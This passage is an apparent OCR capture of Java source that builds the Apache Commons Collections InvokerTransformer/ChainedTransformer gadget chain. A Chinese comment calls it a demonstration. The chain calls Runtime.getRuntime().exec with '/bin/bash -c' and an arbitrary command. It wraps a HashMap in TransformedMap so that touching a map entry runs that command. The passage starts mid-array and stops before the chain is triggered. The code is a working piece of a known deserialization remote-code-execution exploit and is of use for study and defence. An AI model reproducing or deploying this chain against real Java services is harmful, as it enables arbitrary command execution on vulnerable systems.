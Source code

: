 ```java
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "getRuntime",
                    new Class[0]
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
                {
                    null,
                    new Object[0]
                }
            ),
            new InvokerTransformer
            (
                "exec",
                new Class[]
                {
                    String[].class
                },
                new Object[]
                {
                    new String[]
                    {
                        "/bin/bash",
                        "-c",
                        cmd
                    }
                }
            )
        };
        /*
         * https://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/org/apache/commons/collections/functors/ChainedTransformer.html
         */
        Transformer     tchain          = new ChainedTransformer( tarray );
        Map             normalMap       = new HashMap();
        normalMap.put( "key", "value" );
        /*
         * https://commons.apache.org/proper/commons-collections/javadocs/api-3.2.2/org/apache/commons/collections/map/TransformedMap.html
         *
         * static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer)
         *
         * 演示方案只涉及value，所以key的Transformer传了null
         */
        Map             transformedMap  = TransformedMap.decorate( normalMap, null, tchain );
        /*
         * https://docs.oracle.com/javase/8/docs/api/java/util/Map.html
         * https://docs.oracle.com/javase/8/docs/api/java/util/Map.Entry.html
         */
        Map.Entry       entry           = ( Map.Entry )transformedMap.entrySet().iterator().next();
```